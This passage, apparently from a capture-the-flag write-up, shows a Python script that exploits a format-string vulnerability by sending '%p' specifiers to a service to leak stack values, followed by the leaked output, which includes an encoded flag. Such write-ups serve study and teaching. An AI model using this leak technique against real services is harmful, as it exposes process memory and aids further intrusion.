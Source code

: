 #### Leak Everything on the Stack
We use a script to brute-force print stack values using `%p` format specifiers

```python
def print_stack(n):
    context.log_level = "ERROR"
    leak = ""
    for i in range(n//10):
        r = conn()
        payload = b''
        for j in range(i*10+1,i*10+11):
            payload += f"%{j}$p|".encode("ascii")
        payload += b'*'
        r.sendlineafter(b'>>', payload)
        r.recvuntil(b'Pattern decoded as - \n')
        leak += r.recvuntil(b'*', drop=True).decode("ascii")
        r.clean()
        r.close()
    context.log_level = "INFO"
    leak = leak.split("|")
    for i in range(len(leak)-1):
        print(f"{i+1:>3}: {leak[i]}")
```

The output of `print_stack(50)` is shown below.

```bash
  1: 0xff8de1d0
  2: 0xffffffff
  3: 0xf7ced8dc
  4: 0x70243125
  5: 0x2432257c
  6: 0x33257c70
  7: 0x257c7024
  8: 0x7c702434
  9: 0x70243525
 10: 0x2436257c
 11: 0x31257c70
 12: 0x7c702436
 13: 0x24373125
 14: 0x31257c70
 15: 0x7c702438
 16: 0x24393125
 17: 0x32257c70
 18: 0x7c702430
 19: 0xf7f6002a
 20: 0xff96dc90
 21: 0xf7f09c44
 22: 0xf7ec76b0
 23: 0x1
 24: 0x1
 25: (nil)
 26: 0xf7ec76b0
 27: 0x1
 28: 0xf7f08fec
 29: (nil)
 30: 0x8048300
 31: 0x804c028
 32: 0x50
 33: 0x8048488
 34: 0x8048300
 35: 0x804c00c
 36: 0x67616c66
 37: 0x6572547b
 38: 0x7d65
```